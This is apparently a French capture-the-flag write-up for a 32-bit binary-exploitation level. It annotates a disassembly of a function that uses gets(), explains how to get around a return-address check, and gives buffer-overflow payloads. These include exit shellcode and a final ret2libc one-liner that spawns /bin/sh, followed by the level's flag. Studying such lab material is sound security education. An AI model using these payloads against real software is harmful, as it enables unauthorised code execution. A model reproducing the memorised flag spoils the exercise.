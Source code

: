 080484d4 <p>:
 80484d4:	55                   	push   ebp
 80484d5:	89 e5                	mov    ebp,esp
 80484d7:	83 ec 68             	sub    esp,0x68 ; 104
 80484da:	a1 60 98 04 08       	mov    eax,ds:0x8049860 ; une fonction (stdout@@GLIBC_2.0)
 80484df:	89 04 24             	mov    DWORD PTR [esp],eax
 80484e2:	e8 c9 fe ff ff       	call   80483b0 <fflush@plt> ; fflush(stdout)
 80484e7:	8d 45 b4             	lea    eax,[ebp-0x4c] ; On prend un pointeur sur la stack stack - 76
 80484ea:	89 04 24             	mov    DWORD PTR [esp],eax
 80484ed:	e8 ce fe ff ff       	call   80483c0 <gets@plt> ; on rempli du coup le pointeur vers les 76B.
 80484f2:	8b 45 04             	mov    eax,DWORD PTR [ebp+0x4] ; 80 à 84e char de notre buffer.
 80484f5:	89 45 f4             	mov    DWORD PTR [ebp-0xc],eax ; mov l'adresse dans ebp-12
 80484f8:	8b 45 f4             	mov    eax,DWORD PTR [ebp-0xc]
 80484fb:	25 00 00 00 b0       	and    eax,0xb0000000
 8048500:	3d 00 00 00 b0       	cmp    eax,0xb0000000 ; eax & 0xb0000000 == 0xb0000000
 8048505:	75 20                	jne    8048527 <p+0x53>
 8048507:	b8 20 86 04 08       	mov    eax,0x8048620   ; (%p)\n (objdump -s) -- donne le ptr stocké à partir ebp+0x4.
 804850c:	8b 55 f4             	mov    edx,DWORD PTR [ebp-0xc] ; prend l'adresse stocké grâce au buffer overflow
 804850f:	89 54 24 04          	mov    DWORD PTR [esp+0x4],edx ; l'envoie en tant que premier argument variadique de printf
 8048513:	89 04 24             	mov    DWORD PTR [esp],eax ; puis move eax dans la stack pour être utilisé en format de printf.
 8048516:	e8 85 fe ff ff       	call   80483a0 <printf@plt>
 804851b:	c7 04 24 01 00 00 00 	mov    DWORD PTR [esp],0x1
 8048522:	e8 a9 fe ff ff       	call   80483d0 <_exit@plt> ; exit 1
 8048527:	8d 45 b4             	lea    eax,[ebp-0x4c]
 804852a:	89 04 24             	mov    DWORD PTR [esp],eax
 804852d:	e8 be fe ff ff       	call   80483f0 <puts@plt> ; puts la clé (qui est notre stdin) ?
 8048532:	8d 45 b4             	lea    eax,[ebp-0x4c]
 8048535:	89 04 24             	mov    DWORD PTR [esp],eax
 8048538:	e8 a3 fe ff ff       	call   80483e0 <strdup@plt>
 804853d:	c9                   	leave
 804853e:	c3                   	ret


0804853f <main>:
 804853f:	55                   	push   ebp
 8048540:	89 e5                	mov    ebp,esp
 8048542:	83 e4 f0             	and    esp,0xfffffff0
 8048545:	e8 8a ff ff ff       	call   80484d4 <p>
 804854a:	c9                   	leave  
 804854b:	c3                   	ret    
 804854c:	90                   	nop
 804854d:	90                   	nop
 804854e:	90                   	nop
 804854f:	90                   	nop


La difficulté ici, est d'écrire des codes d'opérations à exécuter (donc injecter du code), dans la mémoire chargée de l'ordinateur, et remplacer la valeur de retour par le pointeur sur ce code.
Mais, on a une sécurité à bypass. C'est le fameux `eax & 0xb0000000 == 0xb0000000`. On est quasiment sûr que notre exploit sera contenu à cet adresse.

C'est super, mais on a quand même un gros indice avec le fait d'avoir deux fonctions. Je pense que l'adresse `ret` à attaquer, c'est celle du `main`. On laisse la valeur de `ret` de la fonction `p` tranquille, et on fait pointer celle de `main` sur nos instructions.

D'après mes calculs, l'adresse de retour de main est à la position `40` de notre buffer. Il suffirait donc de :
1. Créer un buffer de 40 caractères.
2. Définir à la position 40 l'adresse de la position 44
3. Mettre nos opcodes.
4. Voir ce qu'il se passe.

Je vais essayer d'exécuter la fonction `p` :
`0x080484d4` => `\xd4\x84\x04\x08`

Injection :
`aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xd4\x84\x04\x08`

Et paf! Ça fonctionne ! Du coup, ne perdons plus une seule seconde, faut tester le PoC avec un script qui fait `exit(42)`.

```s
global _start

section .text
_start:
	xor eax, eax
	mov al, 42
	mov ebx, 0h
	int 80h
```

```sh
nasm -f elf32 level2.s
ld -melf_i386 level2.o -o level2.out
```

Donne après la compilation et le linker le binaire suivant :
```
08049000 <_start>:
 8049000:       31 c0                   xor    %eax,%eax
 8049002:       b0 2a                   mov    $0x2a,%al
 8049004:       31 db                   xor    %ebx,%ebx
 8049006:       cd 80                   int    $0x80
```

On doit donc injecter les instructions suivantes juste après l'adresse :
`\x31\xc0\xb0\x2a\x31\xdb\xcd\x80`

Notre injection sera donc :
0xbfff
`aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x40\xf7\xff\xbf\x31\xc0\xb0\x2a\x31\xdb\xcd\x80`

NOP:

https://shell-storm.org/shellcode/index.html
1. On overflow.
2. On essaie d'override des instructions avec un shellcode `execve("/bin/sh")`.


String `/bin/sh` présente dans la libc.so a l'offset `0x160c58` (`objdump -s`)
```
info proc map # Get the start address
(gdb) x/s 0xb7e2c000+0x160c58
0xb7f8cc58:	 "/bin/sh"

```
`python -c 'print("A"*80 + "\x3e\x85\x04\x08" + "\x60\xb0\xe6\xb7" + "\x90\x90\x90\x90" + "\x58\xcc\xf8\xb7")'`

Flag: `492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02`